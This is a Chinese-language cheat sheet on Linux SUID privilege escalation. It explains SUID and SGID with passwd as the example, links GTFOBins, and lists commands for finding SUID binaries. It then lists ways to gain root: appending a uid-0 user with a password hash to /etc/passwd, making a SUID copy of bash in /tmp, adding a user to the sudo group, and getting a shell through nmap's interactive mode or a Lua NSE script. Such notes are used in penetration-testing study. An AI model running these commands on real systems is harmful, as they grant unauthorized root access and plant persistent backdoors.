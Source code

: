 ## Suid

### 原理
+ suid guid 提权原理, 以passwd为例，解释SUI、SGID(GUID)作用
+ SUID，设置suid后，普通用户test执行passwd命令修改密码时，以root权限运行passwd，同时修改/etc/passwd、/etc/shadow文件；此时passwd命令有root权限GUID，设置sgid后，只有和root同组用户（即wheel组）执行passwd时拥有root权限。
+ 参考[Linux Privilege Escalation using SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
+ [linux提权-SUID提权](https://blog.csdn.net/nzjdsds/article/details/84843201)
+ [gtfobins](https://gtfobins.github.io/gtfobins/)
+ common suid command: nmap, vim, find, bash, more, less, nano, cp, pkexec, gcore
+ common method: add user to passwd, copy bash to tmp and add suid, add uesr to sudo group, reverse shell. 
  
```bash
-rwsr-xr-x 1 root root 63960 Feb 7 2020 /usr/bin/passwd
#已设置suid（即属主权限 x位）

# enum suid file.
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;

find / -perm -g=s -type f 2>/dev/null

# add user to passwd
openssl passwd evil
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2

# copy bash to tmp
cp /bin/bash /tmp/bash
chmod +s /tmp/bash # chmod 4755 /tmp/bash
/tmp/bash -p

# add user to sudo group
usermod -aG sudo admin
sudo su -

# write ssh key to .ssh

```
### nmap-priv

```
#老版本(2.02-5.21）可交互模式运行，允许用户执行shell命令
nmap --interactive
nmap>!sh
#较新版本 --script参数
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
#msf 模块
exploit/unix/local/setuid_nmap
```
